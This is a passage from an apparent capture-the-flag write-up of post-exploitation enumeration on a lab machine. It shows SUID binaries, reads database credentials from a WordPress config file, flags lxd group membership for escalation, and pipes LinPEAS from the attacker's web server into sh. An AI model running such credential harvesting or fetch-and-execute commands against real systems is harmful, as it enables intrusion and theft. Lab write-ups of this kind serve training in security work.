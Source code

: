 ```shell
/bin/ping6
/bin/ntfs-3g
/bin/mount
/bin/fusermount
```

**Found MySQL credentials:**
```shell
orestis@brainfuck:~$ cat /var/www/cms/wp-config.php 
[...]
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'webfolio');

/** MySQL database username */
define('DB_USER', 'orestis');

/** MySQL database password */
define('DB_PASSWORD', '{Redacted}');

/** MySQL hostname */
define('DB_HOST', 'localhost');
[...]
```

It's the same as the SMTP one.

**In the `id`'s output, we're inside the `lxd` group:**
```shell
orestis@brainfuck:~$ id
uid=1000(orestis) gid=1000(orestis) groups=1000(orestis),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),121(lpadmin),122(sambashare)
```

Maybe we could escalate our privilege via that.

**LinPEAS:**
```shell
┌[siunam♥earth]-(/usr/share/peass/linpeas)-[2023.06.04|21:12:01(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
orestis@brainfuck:~$ curl -s http://10.10.14.26/linpeas.sh | sh
[...]
╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions
tmux 2.1


/tmp/tmux-1000
[...]
```
